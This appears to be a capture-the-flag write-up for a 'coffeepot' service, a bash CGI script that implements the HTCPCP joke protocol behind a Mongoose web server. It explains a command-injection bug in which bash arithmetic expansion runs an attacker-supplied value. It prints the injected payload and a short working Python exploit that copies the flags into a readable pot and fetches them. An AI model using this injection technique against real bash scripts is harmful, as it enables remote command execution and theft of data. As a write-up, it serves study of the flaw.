

Service info
------------

The coffeepot service implements Hyper Text Coffee Pot Control Protocol, which described in RFC 2324, published in 1 april 1998.

It allows to start and stop coffee brewing and add some ingridients to the drink, such as rum, almond, milk, whiskey or flags.

The service is a tiny CGI-script, written in bash. A patched web-server called Mongoose listens port 3255 and launches the script.

Bugs
----

As readme states, there is no known bugs in the web-server.

The main and only known bug is in this line of CGI-script:  
    
    echo "${addition}:$((count+1))" >> "pots/${pot}.new"

The **$((count+1))** looks harmless, but it is not.

Expoitation
-----------

To exploit the bug, the attacker could send this value as initial ingridient count:  
    
    a[$(cat pots/* |grep Flag > pots/pot-1234)]

Then, the attacker asks the service to add one more ingridient and the command is executed.

The exploit:

    import sys
    import random
    import requests
    
    PAYLOAD = "Rum:a[$(cat pots/* |grep Flag > pots/pot-1234)]"
    
    host = sys.argv[1]
    pot = random.randrange(10**10, 10**20)
    uri_1 = "http://%s:3255/pot-%s" % (host, pot)
    
    requests.post(uri_1, headers={"Accept-Additions": PAYLOAD})
    requests.put(uri_1, headers={"Addition": "Rum"})
    
    uri_2 = "http://%s:3255/pot-%s" % (host,1234)
    resp = requests.request("PROPFIND", uri_2)
    print(resp.text)`
